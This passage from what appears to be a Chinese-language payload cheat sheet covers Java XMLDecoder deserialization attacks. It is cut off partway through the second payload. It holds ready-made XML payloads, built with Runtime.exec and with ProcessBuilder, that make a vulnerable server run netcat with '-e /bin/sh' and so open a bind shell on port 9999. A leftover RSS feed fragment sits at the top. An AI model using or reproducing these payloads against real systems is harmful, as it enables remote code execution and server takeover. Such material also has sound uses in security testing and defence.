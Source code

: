```bash
<description>a post</description>
<author>author@example.com</author>
<pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
</item>
</channel>
</rss>
```

### [Java XMLDecoder XEE to RCE](#toc_java-xmldecoder-xee-to-rce)

XMLDecoder 是一个基于 XML 消息创建对象的 Java 类。如果恶意用户可以通过应用程序能在 readObject 函数的调用中执行任意数据，就可以在服务器上进行代码执行。

#### [Using Runtime().exec()](#toc_using-runtimeexec)

```bash
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
 <object class="java.lang.Runtime" method="getRuntime">
      <void method="exec">
      <array class="java.lang.String" length="6">
          <void index="0">
              <string>/usr/bin/nc</string>
          </void>
          <void index="1">
              <string>-l</string>
          </void>
          <void index="2">
              <string>-p</string>
          </void>
          <void index="3">
              <string>9999</string>
          </void>
          <void index="4">
              <string>-e</string>
          </void>
          <void index="5">
              <string>/bin/sh</string>
          </void>
      </array>
      </void>
 </object>
</java>
```

#### [ProcessBuilder](#toc_processbuilder)

```bash
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
  <void class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="6">
      <void index="0">
        <string>/usr/bin/nc</string>
      </void>
      <void index="1">
         <string>-l</string>
      </void>
      <void index="2">
         <string>-p</string>
      </void>
      <void index="3">
         <string>9999</string>
      </void>
      <void index="4">
```